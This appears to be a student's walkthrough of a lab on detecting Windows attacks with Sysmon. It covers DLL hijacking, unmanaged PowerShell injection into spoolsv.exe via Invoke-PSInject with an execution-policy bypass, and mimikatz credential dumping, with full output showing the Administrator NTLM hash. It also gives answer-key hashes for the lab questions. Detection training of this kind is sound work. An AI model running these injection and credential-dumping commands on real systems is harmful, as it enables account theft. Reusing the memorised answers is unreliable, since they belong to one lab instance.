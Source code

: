 1.  Replicate the DLL hijacking attack described in this section and provide the SHA256 hash of the malicious WININET.dll as your answer. "C:\Tools\Sysmon" and "C:\Tools\Reflective DLLInjection" on the spawned target contain everything you need.

- Change **"include"** to **"exclude"** on sysmon configuration.
- Go sysmon logs on **Event Viewer**.
- Filter by **Event ID 7** and find calc.exe with **WININET.dll**

![](../6.%20Image/Pasted%20image%2020250517220022.png)

=> SHA256=51F2305DCF385056C68F7CCF5B1B3B9304865CEF1257947D4AD6EF5FAD2E3B13

2.  Replicate the Unmanaged PowerShell attack described in this section and provide the SHA256 hash of clrjit.dll that spoolsv.exe will load as your answer. "C:\Tools\Sysmon" and "C:\Tools\PSInject" on the spawned target contain everything you need.

- cd `C:\Tools\PSInject`
- **Unmanaged Powershell Injection:**
```powershell
 powershell -ep bypass
 Import-Module .\Invoke-PSInject.ps1
 Invoke-PSInject -ProcId 2316 -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
```

![](../6.%20Image/Pasted%20image%2020250517221252.png)

=> **spoolsv.exe** - PID 2316.

![](../6.%20Image/Pasted%20image%2020250517222018.png)

![](../6.%20Image/Pasted%20image%2020250517222406.png)

=> SHA256=8A3CD3CF2249E9971806B15C75A892E6A44CCA5FF5EA5CA89FDA951CD2C09AA9

3. Replicate the Credential Dumping attack described in this section and provide the NTLM hash of the Administrator user as your answer. "C:\Tools\Sysmon" and "C:\Tools\Mimikatz" on the spawned target contain everything you need.

- **Change to "exclude":**

![](../6.%20Image/Pasted%20image%2020250517222634.png)

- **Run mimikatz:**

```
PS C:\Tools\Mimikatz> .\AgentEXE.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2359669 (00000000:00240175)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/17/2025 5:35:31 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : 5e4ffd54b3849aa720ed39f50185e533
         * SHA1     : e6cd3020bb3da2cd8f02dfeaf5c9f6d50812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```
=> NTLM : 5e4ffd54b3849aa720ed39f50185e533